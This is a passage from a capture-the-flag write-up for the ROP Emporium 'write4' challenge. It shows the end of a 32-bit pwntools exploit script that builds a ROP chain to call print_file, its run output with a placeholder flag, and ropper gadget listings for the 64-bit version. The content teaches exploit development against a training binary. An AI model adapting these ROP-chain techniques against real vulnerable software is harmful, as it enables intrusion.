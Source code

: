 ```python
payload += p32(0x7478742e) # ".txt"
payload += mov

#return to print_file
payload += print_file
payload += pop_2
payload += p32(bss_addr)

with open('payload', 'wb') as file:
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```
And now for tbe flag!

```
voidwalker@Abyss:[write4x86]** ./exploit.py
[*] '/home/voidwalker/ROPEmporium/write4x86/write432'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/write4x86/write432': pid 13738
b'write4 by ROP Emporium\nx86\n\nGo ahead and give me the input already!\n\n>'
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

## 64-bit ##

Similarly to the previous levels, the offsets stay the same and, just like in the solution for 32-bit, the methodology is the same.

```
voidwalker@Abyss:[write4x64]** ropper --file write4 --search "mov|pop"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop

[INFO] File: write4
0x00000000004005e2: mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400606: mov dword ptr [rbp + 0x48], edx; mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret;
0x0000000000400629: mov dword ptr [rsi], edi; ret;
0x0000000000400610: mov eax, 0; pop rbp; ret;
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax;
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret;
0x0000000000400609: mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret;
0x00000000004005db: mov ebp, esp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400619: mov ebp, esp; mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret;
0x000000000040061b: mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret;
0x000000000040057c: mov edi, 0x601038; jmp rax;
0x0000000000400628: mov qword ptr [r14], r15; ret;
0x00000000004004d4: mov rax, qword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax;
0x00000000004004d4: mov rax, qword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret;
0x0000000000400608: mov rbp, rsp; call 0x500; mov eax, 0; pop rbp; ret;
0x00000000004005da: mov rbp, rsp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400618: mov rbp, rsp; mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret;
```